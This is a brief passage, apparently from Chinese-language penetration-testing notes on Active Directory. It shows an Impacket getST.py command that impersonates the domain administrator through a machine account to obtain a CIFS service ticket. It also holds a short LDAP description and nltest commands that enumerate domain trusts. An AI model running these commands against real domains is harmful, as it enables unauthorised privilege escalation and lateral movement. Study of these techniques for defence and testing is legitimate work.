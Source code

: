 ```bash
python3 getST.py -dc-ip AD01.xie.com xie.com/machine\$:root -spn cifs/ad01.xie.com -impersonate administrator 
```



<img src=".\图片\6411.png" alt="6411" style="zoom:80%;" />



## LDAP



轻型目录访问协议。有目录数据库，类似一个树形。域内经常使用 ldap 协议寻找或者访问一些服务。从右往左看



# 域基础知识



## 域信任



查询域内信任信息

```
nltest /domain_trusts
```

返回所有信任 192.168.3.33 域的所有域

```
nltest /domain_trusts /all_trusts /v /server:192.168.3.33
```

